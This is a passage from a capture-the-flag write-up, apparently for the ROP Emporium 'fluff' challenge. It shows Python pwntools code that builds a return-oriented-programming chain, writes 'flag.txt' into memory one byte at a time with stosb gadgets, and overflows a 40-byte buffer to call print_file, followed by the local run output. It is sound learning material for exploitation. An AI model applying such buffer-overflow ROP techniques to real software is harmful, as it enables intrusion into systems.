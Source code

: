 ```python
    previous_al = prepare_al(b, previous_al, rop, io.elf)

    # Write the byte from the AL register to the writable data segment
    rop.raw(stosb_gadget)

# Point RDI to the writeable data segment that holds the target data. This is important because the stosb instruction mutated it.
rop.raw(pop_rdi_ret)
rop.raw(writable_data_segment)

# Dump the flag
rop.raw(print_file)

# Build the payload
offset = 40
padding = b"A" * offset
payload = b"".join([
    padding,
    rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

The new `prepare_al` function returns what it set `AL` to. This is parameter is required if we wish to run the function again.
Then, we iterate though the target string `flag.txt` so that we can write one byte at a time to the writable data segment.
Finally, we point `RDI` to `flag.txt` and invoke `print_file` to dump its contents.

```
$ python3 exploit.py
[+] Starting local process './fluff' argv=[b'./fluff'] : pid 7582
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] '/home/kali/ctf/rop-emporium/fluff/x64/fluff'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 13 cached gadgets for './fluff'
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
```